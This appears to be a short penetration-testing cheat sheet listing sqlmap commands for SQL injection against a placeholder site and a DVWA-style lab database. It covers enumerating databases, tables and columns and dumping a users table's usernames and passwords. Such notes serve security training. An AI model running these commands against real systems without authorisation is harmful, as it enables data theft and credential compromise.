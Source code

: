 ```yaml
---
title: sqlmap - A tool for testing SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting 
---
```


# sqlmap - A tool for testing SQL injection

## GET parameter

```bash
sqlmap -u ‘http://victim.site/view.php?id=112’ -p id --technique=U
# -p: to indicate an injectable parameter 
# --technique=U  //to indicate a UNION based SQL injection technique
# -b: banner of the database
# --tor: to use a proxy to connect to the target URL
# -v3: to see the payloads that sqlmap is using
# --flush-session: to refresh sessions
# --tamper: default tampers are in /usr/share/sqlmap/tamper
```

## POST parameter

```bash
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```


## Using -r file

Capture the request with burpsuite and save it to a file.

```bash
# Get all databases
sqlmap -r nameoffiletoinject --dbs    

# Get all tables 
sqlmap -r nameoffiletoinject --tables

# Get all columns of a given database dwva
sqlmap -r nameoffiletoinject --current-db dwva -columns

# Get all tables of a given database, for example dwva
sqlmap -r nameoffiletoinject -D dwva --tables

# Get all columns of a given table in a given database
sqlmap -r nameoffiletoinject -D dwva -T users --columns

# Dump users table
sqlmap -r nameoffiletoinject -D dwva -T users --dump

# Get columns username and password of table users from table dwva
sqlmap -r nameoffiletoinject -D dwva -T users -C username,password --dump
```

## Using URL

You can also provide the url with --url or -u

```bash
sqlmap --url ‘http://victim.site’  --dbs --batch //
sqlmap --url ‘http://victim.site’  --users // gets users
sqlmap --url ‘http://victim.site’  --tables // gets all tables
sqlmap --url ‘http://victim.site’  --batch //
```

